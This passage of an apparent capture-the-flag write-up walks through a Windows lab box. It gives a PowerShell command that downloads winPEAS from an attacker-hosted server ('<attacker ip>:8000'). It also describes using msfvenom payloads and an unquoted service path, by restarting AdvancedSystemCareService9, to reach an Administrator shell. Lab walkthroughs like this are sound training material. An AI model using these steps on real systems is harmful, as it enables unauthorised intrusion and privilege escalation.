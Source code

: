 If all done correctly you should have a shell on the victims box in the netcat terminal. 
  
>[!question]- **Answer**  
>  No answer needed
  
*Congratulations, we're now onto the system. Now we can pull winPEAS to the system using powershell -c. Once  
 we run winPeas, we see that it points us towards unquoted paths. We can  
 see that it provides us with the name of the service it is also  
running.What powershell -c command could we run to manually find out the service name? *Format is "powershell -c "command here"**  

You can now download winPEAS either from the from the attacker box or from the winPeas github repository. 

From attacker machine: ensure that you have winPEAS on the attacker machine and from the directory that hosts the file start a python server. From the victim machine you can run the command: `powershell -c wget "http://<attacker ip>:8000/winPEAS.exe" -outfile "winPEAS.exe"`

From winPEAS Github: you can use wget to get the file `powershell -c wget "https://github.com/carlospolop/PEASS-ng/releases/download/20240211-db8c669a/winPEASx64.exe" -outfile winPEAS.exe`

Once winPEAS is on the victim you can run it by just writing 'winPEAS.exe'

To find the answer to this question just use some googling to find the windows command that will return the services.
>[!question]- **Answer**  
>  powershell -c Get-Service
  
*Now let's escalate to Administrator with our new found knowledge. Generate your payload using msfvenom and pull it to the system using powershell. Now we can move our payload to the unquoted directory winPEAS alerted us to and restart the service with two commands.First we need to stop the service which we can do like so. sc stop AdvancedSystemCareService9 Shortly followed by sc start AdvancedSystemCareService9 Once this command runs, you will see you gain a shell as Administrator on our listener!*  
This is similar to what we did before. 
  
>[!question]- **Answer**  
> No answer needed

Overall this was a very fun room that did prove some difficulty. I did have to restart the machine a few times due to me having some difficulty getting the shell in task 4.